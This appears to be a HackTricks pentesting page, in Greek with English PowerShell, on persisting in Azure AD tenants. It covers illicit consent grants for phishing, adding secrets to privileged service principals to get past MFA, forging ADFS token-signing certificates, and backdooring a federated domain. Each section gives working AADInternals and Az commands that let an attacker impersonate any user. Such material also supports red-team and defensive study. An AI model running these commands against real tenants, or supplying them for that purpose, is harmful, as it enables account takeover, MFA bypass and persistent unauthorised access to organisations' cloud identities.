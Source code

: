 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Illicit Consent Grant

Από προεπιλογή, οποιοσδήποτε χρήστης μπορεί να καταχωρήσει μια εφαρμογή στο Azure AD. Έτσι, μπορείτε να καταχωρήσετε μια εφαρμογή (μόνο για τον στοχευμένο ενοικιαστή) που χρειάζεται υψηλές άδειες με έγκριση διαχειριστή (και να την εγκρίνετε αν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, η διαχείριση ρόλων κ.λπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **κερδοφόρες** σε περίπτωση επιτυχίας.

Επιπλέον, θα μπορούσατε επίσης να αποδεχθείτε αυτή την εφαρμογή με τον χρήστη σας ως τρόπο διατήρησης πρόσβασης σε αυτήν.

### Applications and Service Principals

Με προνόμια Διαχειριστή Εφαρμογών, GA ή έναν προσαρμοσμένο ρόλο με άδειες microsoft.directory/applications/credentials/update, μπορούμε να προσθέσουμε διαπιστευτήρια (μυστικό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **στοχεύσουμε μια εφαρμογή με υψηλές άδειες** ή **να προσθέσουμε μια νέα εφαρμογή** με υψηλές άδειες.

Ένας ενδιαφέρον ρόλος για να προστεθεί στην εφαρμογή θα ήταν ο **ρόλος διαχειριστή προνομιακής πιστοποίησης** καθώς επιτρέπει την **επανεκκίνηση κωδικού πρόσβασης** των Παγκόσμιων Διαχειριστών.

Αυτή η τεχνική επιτρέπει επίσης να **παρακαμφθεί το MFA**.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Για την αυθεντικοποίηση με βάση το πιστοποιητικό
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

Με **δικαιώματα DA** σε on-prem AD, είναι δυνατόν να δημιουργήσουμε και να εισάγουμε **νέα πιστοποιητικά υπογραφής Token** και **πιστοποιητικά αποκρυπτογράφησης Token** που έχουν πολύ μεγάλη διάρκεια ισχύος. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιοσδήποτε χρήστης** του οποίου το ImuutableID γνωρίζουμε.

**Εκτελέστε** την παρακάτω εντολή ως **DA στους ADFS server(s)** για να δημιουργήσετε νέα πιστοποιητικά (προεπιλεγμένος κωδικός πρόσβασης 'AADInternals'), να τα προσθέσετε στο ADFS, να απενεργοποιήσετε την αυτόματη ανανέωση και να επανεκκινήσετε την υπηρεσία:
```bash
New-AADIntADFSSelfSignedCertificates
```
Στη συνέχεια, ενημερώστε τις πληροφορίες πιστοποίησης με το Azure AD:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Με δικαιώματα GA σε έναν ενοικιαστή, είναι δυνατόν να **προσθέσετε ένα νέο τομέα** (πρέπει να επαληθευτεί), να ρυθμίσετε τον τύπο αυθεντικοποίησής του σε Federated και να ρυθμίσετε τον τομέα να **εμπιστεύεται ένα συγκεκριμένο πιστοποιητικό** (any.sts στην παρακάτω εντολή) και εκδότη:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
